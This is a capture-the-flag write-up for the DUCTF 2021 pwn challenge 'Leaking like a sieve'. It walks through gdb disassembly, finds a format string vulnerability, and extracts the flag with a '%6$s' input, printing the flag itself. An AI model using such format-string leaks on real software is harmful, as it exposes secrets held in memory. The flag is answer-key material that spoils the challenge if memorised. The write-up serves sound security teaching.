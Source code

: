 ## Intro
**Leaking like a sieve** was a pwn challenge at DUCTF 2021.  

You were given a binary to exploit.

## Investigation
`checksec` showed that NX and PIE are enabled for the binary. Following the `ltrace` I learned the flow of the program and found no potential
buffer overflow vulnerability at first sight. I loaded the program into `gdb` and disassembled the `main` function, which was the only function of interest here.

```
...
0x0000000000001201 <+41>:	lea    rsi,[rip+0xe00]        # 0x2008  "r"
0x0000000000001208 <+48>:	lea    rdi,[rip+0xdfb]        # 0x200a  "./flag.txt"
0x000000000000120f <+55>:	call   0x1080 <fopen@plt>
...
0x000000000000125d <+133>:	lea    rax,[rbp-0x50]
0x0000000000001261 <+137>:	mov    esi,0x20
0x0000000000001266 <+142>:	mov    rdi,rax
0x0000000000001269 <+145>:	call   0x1070 <fgets@plt>
0x000000000000126e <+150>:	lea    rdi,[rip+0xe1c]        # 0x2091  "\nHello there, "
0x0000000000001275 <+157>:	mov    eax,0x0
0x000000000000127a <+162>:	call   0x1060 <printf@plt>
0x000000000000127f <+167>:	lea    rax,[rbp-0x50]
0x0000000000001283 <+171>:	mov    rdi,rax
0x0000000000001286 <+174>:	mov    eax,0x0
0x000000000000128b <+179>:	call   0x1060 <printf@plt>
...
```

We can see here that the program reads in the flag from a file somewhere in the beginning. Later, it asks the user for input, which gets stored at `rbp-0x50`,
and prints it out again using `printf`. Using this input as the first and only parameter to `printf` a format string vulnerability
is introduced. We can verify this by inputting some format strings like `%p %p %p %p %p %p %p %p` and see that memory addresses from the programs stack get leaked.

```
(gdb) r
...
What is your name?
%p %p %p %p %p %p %p %p

Hello there, 0x7fffffffbd30 (nil) 0x7ffff7ed6387 0x7fffffffde60 (nil) 0x7fffffffde80 0x5555555592a0 0x7025207025207025

What is your name?
```

## Solution
As it happens the flag is the sixth address stored in the stack so we can print that out by inputting `%6$s`. This format string will interpret the sixth
address on the stack as a string and print it out. Et voila!

```
(gdb) r
...
What is your name?
%6$s

Hello there, DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
```

> DUCTF{f0rm4t_5p3c1f13r_m3dsg!}
